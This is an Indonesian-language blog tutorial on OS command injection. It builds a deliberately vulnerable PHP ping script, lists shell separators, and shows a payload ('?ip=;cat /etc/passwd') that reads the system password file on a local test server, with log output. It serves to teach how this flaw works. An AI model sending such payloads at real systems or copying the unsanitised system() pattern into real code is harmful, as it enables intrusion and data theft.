```yaml
---
title: os command injection 
date: 2022-09-01
tags: ["exploitation"]
---
```

{{< raw >}}
<img src="/images/cuteheker.jpeg">
{{< /raw >}}

<br>
<br>

os command injection biasanya terjadi ketika seorang web developer keliru
dalam mengatur penerimaan input didalam situsnya. biasanya terjadi ketika
form input yang dibuat menggunakan fungsi seperti `exec()`, `system()`, dll.
tergantung fungsi tersebut berasal dari bahasa pemogramman apa. jika python
biasanya menggunakan `os.system()` atau `eval()`, etc.

tentu saja ini jadi sesuatu yang sangat berbahaya dikarenakan attacker dapat
memasukan perintah berbahaya kedalam shell sistem operasi yang ada disitus tersebut.

>Serangan command injection bisa terjadi ketika sebuah aplikasi 
>(forms, cookies, HTTP headers, dll) bisa menjalankan perintah yang 
>tidak aman dari inputan user ke sistem shell. 
{{< raw >}}
<a href="https://crashtest-security.com/command-injection/">crashtest security</a>
{{< /raw >}}

menurut crashtest security, os command injection tidak hanya bisa terjadi
di forms melainkan bisa saja ditempat lain seperti diatas.

# demonstrasi

contoh kode php yang rentan dengan os command injection karena ketiadaan
validasi input ataupun proses filtering.

```shell 
<?php
$ip = $_GET['ip'];
$cmd = system('ping '.$ip); 

echo $cmd
?>
```

- buat file `ping.php` & jalankan diterminal kalian

`$ php -S 127.0.0.1:8000 -t .`


kunjungi dan cobalah masukan input seperti ini

**http://127.0.0.1:8000/ping.php?ip=cat%20/etc/passwd**

maka jika dibrowser saya, ini tidak menghasilkan apa-apa. dikarenakan perintah
**cat /etc/passwd** masih dianggap sebagai argumen untuk ping.

```shell
[Thu Sep  1 18:16:34 2022] 127.0.0.1:41126 Accepted
ping: unknown host cat
[Thu Sep  1 18:16:34 2022] 127.0.0.1:41125 [200]: GET /ping.php?ip=cat%20/etc/passwd
[Thu Sep  1 18:16:34 2022] 127.0.0.1:41125 Closing
```

bisa dilihat disana ada pesan **uknown host cat**. yang menandakan perintah cat 
kita dianggap destination dari ping. nah kalian bisa mencoba nya lagi
dengan membatalkan perintah ping dengan shell escapes.

```
;
|
||
<
&
&&
$()
```


let's try again


**http://127.0.0.1:8000/ping.php?ip=;cat /etc/passwd**



maka kalian bisa melihat bahwa disini kita berhasil untuk melakukan perintah cat
terhadap file passwd.

{{< raw >}}
<img src="/images/oci.jpg">
{{< /raw >}}

btw saya ngejalanin file php nya di termux, jadi output dari **/etc/passwd** nya
agak aneh hhe.




# other references
beberapa referensi lain yang membahas command injection lebih detail.

- command injection 
https://book.hacktricks.xyz/pentesting-web/command-injection
